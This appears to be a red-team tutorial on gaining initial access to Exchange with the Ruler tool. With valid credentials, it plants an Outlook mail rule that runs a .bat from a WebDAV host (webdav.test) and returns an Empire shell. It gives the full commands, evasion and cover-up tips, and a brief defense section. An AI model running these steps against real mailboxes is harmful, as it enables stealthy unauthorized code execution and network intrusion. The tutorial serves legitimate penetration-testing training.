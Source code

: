 ```yaml
---
description: Getting initial access through exchange
---
```


# Initial access through exchange

## Requirements

* Installing [golang ](https://github.com/golang)
* Installing [ruler](https://github.com/sensepost/ruler)
* A valid domain user credentials

## Introduction

Ruler is a tool that allows you to interact with Exchange servers remotely, through either the MAPI/HTTP or RPC/HTTP protocol. The main aim isto  abuse the client-side Outlook features and gain a shell remotely.

Ruler attempts to interact with Exchange and uses the Autodiscover service \(just like in your organization\) to discover the relevant information needed to proceed.

## What can we use ruler for

We can use ruler to do many things ill list its main feature below but, what i am going to show you is gonna be a way to pop a shell through ruler and the only thing we need is a valid username/password and the user to have outlook open. This can be very useful to pop a shell after a successful password spraying.

in a real life scenario most employees leave their outlook open because they are often checking for incoming mails etc.

* Enumerate valid users
* Create new malicious mail rules 
* Dump the Global Address List \(GAL\)
* VBScript execution through forms
* VBScript execution through the Outlook Home Page

crazy isnt it? now that we know some of ruler usage lets get starting

### Checking that we are good to go :

i wont go through on how to find mail structures,adding dns records etc ill leave you to explore it.

once we know the mail structure,added dns records etc we can start by checking with the exchange server that we can communicate to it and that we are able to authenticate and open the mailbox.

depends on how you compile ruler it may be different than the syntax below

```text
./ruler --email test@lab.local --verbose check
```

once executed we will get a password prompt,if everything is valid we should get a messsage stating that the mailbox has been opened and that we are good to go.

### Viewing Existing Rules :

```text
./ruler --email test@lab.local display
```

### Setting up an Empire Listener

i wont go into how to set up an empire or its listener you can refer to chryzsh [link](https://chryzsh.gitbooks.io/darthsidious/content/responder/relay.html) in the book to get an understanding of how to quickly set it up. instead of using a one liner we should generate a .bat powershell and host it on a webdav server.

there are many guides on the net on how to quickly set up a webdav server.

its worth mentiniong that its possible to evade detection by zipping the .bat and then calling it through webdav directory.

ill update this method in the future.

### Creating the rule

```text
./ruler --email test@lab.local add --name test --trigger shell --location "\\\\webdav.test\\webdav\shell.bat" --send
```

this command basically gonna send an email to the user inbox and trigger our rule when that happens we should shortly after recieve our empire shell.

now its worth mentioning that the user wont see the mail in his sent items since its automatically gettin deleted so we dont have to worry about that.

### Deleting the rule & Cleaning up

once we are done we can delete

`./ruler --email test@lab.local delete --name test`

### Defending against Ruler

1. Enable Multi-factor Authentication for all of your users, especially those with administrative privileges.
2. Monitor your accounts for illicit activity. You can do this manually, or with a security monitoring toolset. This may not prevent the initial breach, but will shorten the duration, and the impact of the breach.

### How to Detect it

The simplest method is to use a script microsoft made to get all the rules

[https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1](https://github.com/OfficeDev/O365-InvestigationTooling/blob/master/Get-AllTenantRulesAndForms.ps1)

You will need to have a global admin role to run the script

### Closing Thoughts

with ruler we can pop a shell and pivot across the network its a great tool that has alot to explore what i showed here is a just one of the things its capable of doing i suggest you to explore the rest of it and get better understanding of its true power.

Written by : ~~**BufferOv3rride**~~ Written: 30.03.2018 Last edited: 30.03.2018


